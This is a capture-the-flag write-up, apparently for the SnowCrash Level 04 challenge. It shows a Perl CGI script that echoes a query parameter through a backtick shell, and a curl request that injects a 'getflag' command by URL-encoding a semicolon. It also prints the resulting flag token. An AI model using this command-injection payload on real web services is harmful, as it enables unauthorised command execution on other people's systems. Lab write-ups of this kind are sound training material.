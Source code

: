 # Level 04

## Initial Reconnaissance
When browsing the files of the home of level04 user, we can see there is a perl file called level04.pl owned by level04.

```bash
ls -Al
```

```
total 16
-r-x------ 1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------ 1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------ 1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag04  level04  152 Mar  5  2016 level04.pl
```

Let's see what the file contains.

```bash
cat level04.pl
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Vulnerability Found
It suggest that there is a server running on localhost:4747 running a perl script for CGI.

We can try to access the server with a browser.

```bash
curl http://localhost:4747/?x=hello
```

```
hello
```

We can see that the script is executing the command echo hello, very likely as user flag04. The backticks indicate that a subshell is executed.

## Exploitation Steps
The CGI doesn't accept special characters like ; or &. But we can bypass this with the hexadecimal value of the character. Here we can use ; (3b) to execute the getflag command.

```
level04@SnowCrash:~$ curl http://localhost:4747/?x=hi%3bgetflag
hi
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Additional Notes

